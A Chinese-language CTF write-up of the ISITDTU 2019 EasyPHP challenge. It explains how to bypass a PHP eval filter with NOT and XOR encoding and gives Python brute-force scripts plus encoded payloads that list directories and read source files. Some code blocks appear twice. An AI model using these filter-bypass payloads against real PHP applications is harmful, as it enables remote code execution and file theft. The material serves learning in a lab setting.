





# [ISITDTU 2019]EasyPHP

## 取反、异或绕过正则

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

想办法绕过两个正则

```
\x00- 0-9                       匹配\x00到空格(\x20)，0-9的数字
'"`$&.,|[{_defgops              匹配这些字符
\x7F                            匹配DEL(\x7F)字符
```

匹配到以上字符就die

```php
if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');
```

当mode=3: 会返回包含所有用过的不同字符的字符串



`strlen(count_chars(strtolower($_),0x3))>0xd`的意思也就是不能提交超过13（<=13）种字符

测试一下可用函数



```php
<?php
$array=get_defined_functions();//返回所有内置定义函数
foreach($array['internal'] as $arr){
    if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $arr) ) continue;
    if ( strlen(count_chars(strtolower($arr), 0x3)) > 0xd ) continue;
    print($arr.'<br/>');
}
```

正则并没有过滤`~`和`^`字符，可用利用取反编码绕过和异或绕过





暴力搜索符合条件字符串

```python
final_string="phpinfo"
allowed="!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~"
for a in final_string:    
    for i in allowed:
        for p in allowed:
            if ord(i)^ord(p)==ord(a):
                print("i=%s p=%s a=%s"%(i,p,a))
```

phpinfo=%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff

查看`disable_functions`

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,escapeshellarg,escapeshellcmd,passthru,proc_close,proc_get_status,proc_open,shell_exec,mail,imap_open,
```

我们可以用[scandir()](https://www.w3school.com.cn/php/func_directory_scandir.asp) 或者 [glob()](https://www.w3school.com.cn/php/func_filesystem_glob.asp)函数列目录，但它返回一个数组，我们还需要一个print_r或var_dump

发现可以运行，但是count_chars那里过不去，我们一共用了16个不同字符，下一步是缩减字符数。

```python
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

除了必要的()^;以外，我们最多剩余9个字符的空间，逐步删除result里的值，当结果仍能保持11个，就意味着我们可以继续删除了。

```php
print_r(scandir(.));=((%9b%9c%9b%9b%9b%9b%9c)^(%9b%8f%9b%9c%9c%9b%8f)^(%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff))(((%9b%9b%9b%9b%9b%9b%9c)^(%9b%9b%9b%9c%a0%9b%8f)^(%8c%9c%9e%96%a0%96%9e)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));
```

```python
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

```php
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```

scandir返回的是个数组，且刚才的结果显示我们要找的文件在scandir的结果最后面，那么用end()方法就可以得到文件名了。读文件可以用show_source或者readfile

```python
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

```php
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```

